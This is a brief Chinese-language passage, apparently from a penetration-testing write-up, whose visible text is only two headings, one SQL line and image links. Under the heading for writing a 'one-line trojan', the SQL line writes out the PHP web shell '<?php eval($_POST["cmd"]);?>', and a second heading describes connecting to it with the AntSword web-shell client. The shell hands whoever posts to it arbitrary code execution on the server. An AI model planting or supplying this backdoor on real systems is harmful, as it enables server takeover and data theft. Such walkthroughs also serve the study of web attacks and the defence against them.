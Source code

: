 写入一句话木马

SELECT '<?php eval($_POST["cmd"]);?>'；

![img](assets/1654255582999-58f49b21-cc57-430c-b326-da38f7173e73.png)

蚁剑连接

![img](assets/1654255899915-78399c3b-a256-4e3a-aa39-677902638747.png)

